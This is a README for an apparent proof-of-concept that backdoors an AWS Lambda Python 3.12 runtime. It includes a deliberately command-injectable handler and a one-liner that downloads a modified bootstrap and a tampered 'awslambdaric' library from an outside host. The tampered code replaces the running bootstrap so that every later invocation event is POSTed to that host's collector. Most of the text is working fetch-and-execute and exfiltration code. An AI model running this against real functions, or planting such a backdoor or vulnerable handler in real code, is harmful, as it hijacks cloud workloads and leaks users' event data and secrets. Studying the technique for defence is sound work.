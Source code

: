 # Instructions for POC

- Create a new lambda with a python 3.12 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import zipfile;import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap2.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'https://appointmentaid.com/awslambdaric-evil.zip');w = open('/tmp/evil.zip', 'wb');w.write(r.data);w.close();zipfile.ZipFile('/tmp/evil.zip', 'r').extractall('/tmp');r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\""
}
```

After swapping the bootstrap all subsequent events will be leaked in a POST request to https://www.appointmentaid.com/postcatcher.php and can be viewed at https://www.appointmentaid.com/lambda.txt


### Explained
This POC works by editing the existing python 3.12 bootstrap.py file as well as the bootstrap.py file within the `awslambdaric` library itself. The following 3 lines are added to the bootstrap.py inside the `awslambdaric` library inside of the while loop:
```
import urllib3
http = urllib3.PoolManager()
http.request('post', 'https://www.appointmentaid.com/postcatcher.php', body=event_request.event_body)
```

In the main bootstrap.py file, this line is added near the top:
```
sys.path.insert(0, '/tmp')
```
The source code for postcatcher.php is included in the `php` folder in the root of this repo.

The modified `awslambdaric` library is zipped up and hosted along with the `bootstrap.py` file. The "exploit event" is a python one liner that downloads the `bootstrap.py` and the `awslambdaric` zip file. It unzips the zipped library into tmp along with the bootstrap file and then replaces the running bootstrap with the bootstrap.py from /tmp using our modified library.

The one liner code in a more readable format:
```python3
import zipfile
import urllib3
import os

#download new bootstrap.py file and save it to /tmp
http = urllib3.PoolManager()
r = http.request('GET', 'https://appointmentaid.com/bootstrap2.py')
w = open('/tmp/bootstrap.py', 'w')
w.write(r.data.decode('utf-8'))
w.close()

#download new awslambdaric and save it to /tmp
r = http.request('GET', 'https://appointmentaid.com/awslambdaric-evil.zip')
w = open('/tmp/evil.zip', 'wb')
w.write(r.data)
w.close()

#unzip new awslambdaric library to tmp
zipfile.ZipFile('/tmp/evil.zip', 'r').extractall('/tmp')

#tell lambda api this invocation is done
r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next')
rid = r.headers['Lambda-Runtime-Aws-Request-Id']
http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'})

#run the new evil bootstrap
os.system('python3 /tmp/bootstrap.py')
```
